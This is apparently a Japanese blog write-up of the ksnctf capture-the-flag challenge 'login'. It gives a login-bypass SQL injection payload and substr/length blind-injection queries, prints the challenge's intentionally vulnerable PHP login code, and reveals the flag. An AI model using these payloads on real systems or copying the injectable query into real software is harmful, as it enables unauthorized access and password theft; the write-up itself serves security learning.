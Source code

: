 +++
draft = false
date = "2016-12-27T10:45:13+09:00"
title = "ksnctf: #6 login"
tags = ["IT","CTF"]
thumbnail = "images/geek/ctf.jpg"

+++

# 問題

>http://ctfq.sweetduet.info:10080/~q6/

# 解法

開くとLoginページ。adminで入れとのこと。
まあSQLインジェクションだろう。

+ ID: `admin`
+ Pass: `' OR 1=1 --`

であっさり入れた。

```php
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

でもまだ終わりではない。flagはadminのパスワードらしい。
ブラインドSQLインジェクションというらしい。

出力できそうにないので総当りをしてみる。

最初はLikeで一文字ずつ試していたけど、Likeはcase insensitiveらしく小文字と大文字が区別できない。
あとで小文字か大文字かを判定してもいいけど、比較演算子で代用することにした。
つまり、`pass like 'FLAG_a%'`は`pass >= 'FLAG_a' AND pass < 'FLAG_b'`となる。

あとは一文字ずつ繰り返す。

# script

<script src="https://gist.github.com/vintersnow/c16bb90a77624d7f48adb3320b703ec3.js"></script>


# 別解

あとで調べたら、substrで解いたほうが楽そう。

```
WHERE id='' OR (SELECT length(pass) FROM user WHERE id='admin') <= length
```

で長さを調べて、

```
WHERE id='' OR substr((SELECT pass FROM users), n, 1)='a'
```

で一文字見ていく。

# flag

```
FLAG_KpWa4ji3uZk6TrPK
```

# point

**341**

# 参考

+ http://www.yoheim.net/blog.php?q=20160204
+ http://stackoverflow.com/questions/15480319/case-sensitive-and-insensitive-like-in-sqlite
+ http://www9.plala.or.jp/sgwr-t/c_sub/ascii.html 
+ http://stackoverflow.com/questions/16060899/alphabet-range-python
+ http://sekai013.hatenablog.com/entry/2015/03/26/224413
